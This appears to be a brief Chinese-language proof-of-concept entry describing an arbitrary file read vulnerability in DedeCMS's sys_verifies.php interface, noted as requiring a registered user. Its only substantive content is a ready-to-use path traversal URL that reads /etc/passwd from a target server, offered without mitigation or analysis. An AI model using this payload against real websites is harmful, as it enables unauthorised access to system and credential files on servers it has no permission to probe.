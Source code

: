# DeDecms接口sys_verifies.php存在任意文件读取漏洞

需前台注册用户权限。

## poc

```java
http://ip/dede/sys_verifies.php?action=view&filename=../../../../../etc/passwd
```

